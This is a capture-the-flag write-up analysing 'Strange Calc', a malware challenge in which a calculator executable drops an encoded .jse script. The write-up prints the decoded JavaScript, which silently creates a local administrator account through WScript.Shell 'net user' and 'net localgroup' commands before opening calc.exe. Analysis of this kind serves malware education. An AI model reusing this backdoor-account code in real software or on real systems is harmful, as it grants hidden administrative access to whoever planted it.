

# Strange Calc

**Description:**

<small>Author: @JohnHammond</small><br><br>I got this new calculator app from my friend! But it's really weird, for some  reason it needs admin permissions to run?? <br><br> <b>NOTE: Archive password is <code>strange_calc</code></b> <br><br> <b>Download the file(s) below.</b><br>


**Category:** Malware

**Difficulty:** medium

**File:** [calc.zip](calc.zip)

## Solution

First, I extracted the contents of the zip file (calc.zip) using the provided password strange_calc. This produced an executable file named calc.exe.

Running the file in a Windows virtual machine, I observed that it created a .jse file. This file seemed to contain encoded data that looked like
```
#@~^cQMAAA==W!x^DkKxPm`(b	7l.P1'EEBN'( /aVkDcE-	J*iWW.c7l.Px!p+@![cV+ULDtI+3Q*	-mD,0'9$DRM+2VmmncJ7-kQu'/_f&L~EB*ir0cWckUNar6`E8okUE*'x'Zk-0 bx9+6}0vE+	NE#{'xT-u0{x'rJ#1GUYbx!+I\C.,ox`6 m4l./KN+)Ov!bO2+*[2i6WDv\m.P4'qi4@!W ^+xTOtpt_{*b	b0vtQ&@*x6Rs+	LY4#8.l3I-mD~k{c6R^4lMZW9+zO`4#R&y#'2~L{c0cmtm./W9+zYctQq*Of *'v2~Vxv0R^4mD/W9nzYc4_y#O2 *'v2~s'v0 ^4lD;GNbYv4Q&*O2 b[fpmQ'UODbxL 6DWh/4l.ZK[`cb@!@! #-`N@*@*W#bib0c43 @!6 VxoD4RF*m3'jY.r	o 0MG:;tC.;WNncv`%[8X*@!@!W#-`3@*@*yb#pkW`4_f@!6RVUoDtO8b^_{?DDrxL 6DG:;4lMZG[``cVL&b@!@!*us*8)D+DEMUP1RdE(/O.bxovT~T#87C.Ps'r4norU,v*c,R-	M1o5b,	JIRf`"1w`]Bvub,;^qR&{2S.Of0/v(,[@!(c&"zR!I~qKM-U|'xnx9Ei7l.~	'lch*i-lM~K',rxYP!/.PdW^l^b[hbxkkODmYWM~E_	_rP&l[[r~ExOP^W^C^oDG;aPCNsr	kdDDmYWM/,JW1lsb9:rUb/YMCYKDPJC[Nr~rmCV^ 6nJYI\mD~2{x+A~zmOk7nor8N+1Y`EU^DbwORUtns^B#pWWM`\m.~;{!p;@!W sxLY4RFp;QQ*	w ]!xcW]5Y~TB0mV/#)2R"EU`K$+DBF~6CVk+#p4RABAA==^#~@
```

After some research, I discovered that the .jse file was encoded using JScript.Encode. To decode this, I used a tool called scrdec18.

The decoding gave the following JavaScript code:
```javascript
function a(b){var c="",d=b.split("\n");for(var e=0;e<d.length;e++){var f=d[e].replace(/^\s+|\s+$/g,'');if(f.indexOf("begin")===0||f.indexOf("end")===0||f==="")continue;var g=(f.charCodeAt(0)-32)&63;for(var h=1;h<f.length;h+=4){if(h+3>=f.length)break;var i=(f.charCodeAt(h)-32)&63,j=(f.charCodeAt(h+1)-32)&63,k=(f.charCodeAt(h+2)-32)&63,l=(f.charCodeAt(h+3)-32)&63;c+=String.fromCharCode((i<<2)|(j>>4));if(h+2<f.length-1)c+=String.fromCharCode(((j&15)<<4)|(k>>2));if(h+3<f.length-1)c+=String.fromCharCode(((k&3)<<6)|l)}}return c.substring(0,g)}var m="begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend";var n=a(m);var o=["net user LocalAdministrator "+n+" /add","net localgroup administrators LocalAdministrator /add","calc.exe"];var p=new ActiveXObject('WScript.Shell');for(var q=0;q<o.length-1;q++){p.Run(o[q],0,false)}p.Run(o[2],1,false);
```

After formatting the code, I noticed an interesting part that looked like UUencoded data:
```javascript
var m="begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend";
```

Decoded UUencoded string gave the flag.  

